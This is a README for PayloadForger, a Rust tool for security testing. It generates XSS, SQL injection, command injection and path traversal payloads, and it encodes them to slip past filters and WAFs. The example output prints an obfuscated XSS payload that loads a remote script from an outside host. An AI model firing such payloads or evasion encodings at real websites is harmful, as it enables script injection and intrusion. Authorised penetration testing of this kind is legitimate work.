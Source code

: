 # PayloadForger

PayloadForger is a tool designed to generate custom payloads for web application security testing. It supports various attack types including XSS, SQL Injection, Command Injection, and Path Traversal. The tool generates payloads based on user input and provides encoded versions in hexadecimal and Base64 formats to help bypass security filters and WAFs.

## Features

Support for Multiple Attack Types: Easily generate payloads for different types of attacks.

Output Formats: Payloads can be saved in plain text, Hex, and Base64 formats.

Colorized Output: Enhanced visual representation in terminal output.

File Handling: Payloads are saved to a file for easy review and further analysis.

## Directory Structure

The project has the following directory structure:


project-root/
├── src/
│   ├── attack_types.rs
│   ├── main.rs
│   └── payload.rs
├── payloads/
│   ├── xss.txt
│   ├── sqlinjection.txt
│   ├── commandinjection.txt
│   └── pathtransversal.txt
├── Cargo.toml
└── target/
*Archives folder and .txt file will be created once the tool compiles.

## Requirements

Rust (1.56 or later)
Cargo (Rust package manager)

## Installation

Clone the repository:



git clone https://github.com/CypherHippie/PayloadForger.git
cd payload-forge

## Build the project:



cargo build --release

## Run the application:



cargo run --release <payload_type> <attack_type> <number_of_payloads>


<payload_type>: raw

<attack_type>: xss, sqlinjection, commandinjection, pathtraversal

<number_of_payloads>: The number of payloads you want to generate.

## Usage

To generate a payload, run the application with the desired parameters:

### XSS Payload:


cargo run -- raw xss {number}

### SQL Injection Payload:


cargo run -- raw sqlinjection {number}

### Command Injection Payload:


cargo run -- raw commandinjection {number}


### Path Traversal Payload with Custom Payload:


cargo run -- raw pathtraversal {number}

### Example Output


Raw: %3Ciframe src='javascript:alert("&lt;SCRIPT a=\"&gt;'&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;")'%3E%3C/iframe%3E
Hex: <encoded_hex_value>
Base64: <encoded_base64_value>
DoubleURL: <doubleurl_version_>
Case varied: <case_varied_version>
Comment Injected: <comment_injection_version>
Concatenated: <concatenated_version>
Unicode: <unicode_version_>

### Viewing Generated Payloads

Generated payloads are saved in archives/generated_payloads.txt. You can review this file to see the crafted payloads.

## Contributing

Contributions are welcome! If you find a bug or have a feature request, please open an issue or submit a pull request.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Acknowledgments

The tool leverages the Rust programming language and its ecosystem for robust and efficient payload generation.

Thanks to the community for their support and contributions.